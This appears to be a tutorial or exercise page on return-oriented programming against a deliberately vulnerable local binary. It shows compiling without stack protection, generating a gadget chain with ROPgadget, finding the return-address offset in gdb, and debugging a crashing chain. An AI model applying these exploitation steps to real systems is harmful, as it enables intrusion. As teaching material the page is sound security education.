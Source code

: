 # Let's give a simpler example a go

```
clang -static -fno-stack-protector -o target target.c
```

```
ROPgadget --binary target
```

```
ROPgadget --ropchain --binary target
```

To add the right number of padding bytes we need to know the offset of the return pointer - but this we've done before

```
$ pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```
gdb -q target
Reading symbols from target...(no debugging symbols found)...done.
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400b30 <+0>: 	push   %rbp
   0x0000000000400b31 <+1>: 	mov    %rsp,%rbp
   0x0000000000400b34 <+4>: 	sub    $0x40,%rsp
   0x0000000000400b38 <+8>: 	movl   $0x0,-0x4(%rbp)
   0x0000000000400b3f <+15>:	mov    %edi,-0x8(%rbp)
   0x0000000000400b42 <+18>:	mov    %rsi,-0x10(%rbp)
   0x0000000000400b46 <+22>:	cmpl   $0x2,-0x8(%rbp)
   0x0000000000400b4a <+26>:	jl     0x400b65 <main+53>
   0x0000000000400b50 <+32>:	lea    -0x30(%rbp),%rdi
   0x0000000000400b54 <+36>:	mov    -0x10(%rbp),%rax
   0x0000000000400b58 <+40>:	mov    0x8(%rax),%rsi
   0x0000000000400b5c <+44>:	callq  0x4003f0
   0x0000000000400b61 <+49>:	mov    %rax,-0x38(%rbp)
   0x0000000000400b65 <+53>:	xor    %eax,%eax
   0x0000000000400b67 <+55>:	add    $0x40,%rsp
   0x0000000000400b6b <+59>:	pop    %rbp
   0x0000000000400b6c <+60>:	retq   
End of assembler dump.
(gdb) br *main+60
Breakpoint 1 at 0x400b6c
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0000000000400b6c in main ()
(gdb) x/1xg $sp
0x7fffffffdc08:	0x4130634139624138
```

```
pattern_offset -q 4130634139624138
[*] Exact match at offset 56
```

```
$ ./target $(./chain.py)
Segmentation fault (core dumped)
```

To debug try:

```
./chain.py > file
xxd -g 8 file
```

Try to eliminate zero bytes
```
ROPgadget --ropchain --binary target --badbytes 00
```

Maybe try to build as a 32 bit binary?
```
clang -m32 -static -fno-stack-protector -o target target.c
```

And start again from the beginning - now with 32 bit. Maybe there are different bad bytes this time around? Have a look at the bytes produced in the shellcode - debug in gdb - what is going on?
